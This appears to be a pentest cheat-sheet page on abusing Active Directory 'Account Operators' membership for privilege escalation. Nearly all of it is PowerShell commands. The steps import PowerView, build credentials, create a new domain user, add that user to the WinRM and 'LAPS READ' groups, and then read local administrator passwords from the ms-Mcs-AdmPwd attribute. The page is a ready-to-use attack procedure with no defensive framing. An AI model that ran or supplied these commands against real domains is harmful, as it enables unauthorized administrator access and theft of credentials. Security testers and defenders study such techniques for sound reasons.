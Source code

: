 ```yaml
---
title: "Account Operators"
date: 2024-7-23
tags: ["Account Operators", "active driectory", "ad", "Windows", "LAPS", "privesc"]
---
```


---
### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Create new user password object

<div>

```powershell
$new_user_password = ConvertTo-SecureString <NEW_USER_PASSWORD> -AsPlainText -Force
```

</div>

#### 4. Create new user account

<div>

```powershell
# Create a new user
New-AdUser <NEW_USER> -enabled $true -accountpassword $new_user_password -Credential $cred
```

```powershell
# Grant new user privilege (e.g. WinRM)
Add-DomainGroupMember -Identity WinRM -Members <NEW_USER> -Credential $cred
```

</div>

#### 5. Add new user to LAPS group

<div>

```powershell
Add-DomainGroupMember -Identity 'LAPS READ' -Members <NEW_USER> -Credential $cred
```

</div>

#### 6. Read LAPS password

<div>

```powershell
# Login as new user
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

</div>

{{< /tabcontent >}}

<br>